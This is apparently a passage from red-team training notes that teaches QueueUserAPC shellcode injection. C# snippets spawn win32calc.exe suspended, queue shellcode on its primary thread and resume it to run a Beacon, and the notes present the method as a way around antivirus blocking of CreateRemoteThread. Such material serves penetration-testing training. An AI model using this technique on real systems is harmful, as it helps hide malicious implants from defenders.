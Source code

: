 CreateRemoteThread is very heavily scrutinised and AVs such as Windows Defender tend to block it by default.  **QueueUserAPC** is another API that we can use to execute shellcode in a process.  There are two main ways to use it:

1.  Spawn a process in a suspended state, queue the APC on the primary thread and resume.
2.  Enumerate threads of an existing process and queue the APC on one of them.
    1.  Wait for that thread to enter an alerted state, or
    2.  Force that thread to enter an alerted state.

The first option of spawning a process is the most straight forward.

1.  Spawn a process as before, but pass the CREATE_SUSPENDED flag (documented [here](https://docs.microsoft.com/en-us/windows/win32/procthread/process-creation-flags)).  If the process fails to start, just throw an exception as we can't continue further.

```csharp
var si = new Win32.STARTUPINFO();
si.cb = Marshal.SizeOf(si);

var pa = new Win32.SECURITY_ATTRIBUTES();
pa.nLength = Marshal.SizeOf(pa);

var ta = new Win32.SECURITY_ATTRIBUTES();
ta.nLength = Marshal.SizeOf(ta);

var pi = new Win32.PROCESS_INFORMATION();

var success = Win32.CreateProcessW(
    "C:\\Windows\\System32\\win32calc.exe",
    null,
    ref ta,
    ref pa,
    false,
    0x00000004, // CREATE_SUSPENDED
    IntPtr.Zero,
    "C:\\Windows\\System32",
    ref si,
    out pi);

// If we failed to spawn the process, just bail
if (!success)
    throw new Win32Exception(Marshal.GetLastWin32Error());
```

  

2.  Fetch the shellcode and write it into the target process.

3.  Call the QueueUserAPC API.  Give it the location of the shellcode in memory and the handle to the process' primary thread.

```csharp
// Queue the APC
Win32.QueueUserAPC(
    baseAddress, // point to the shellcode location
    pi.hThread,  // primary thread of process
    0);
```

  

4.  Resume the thread.

```csharp
// Resume the thread
Win32.ResumeThread(pi.hThread);
```

  

You will now have a Beacon running in win32calc.

![[26. QueueUserAPC.png]]



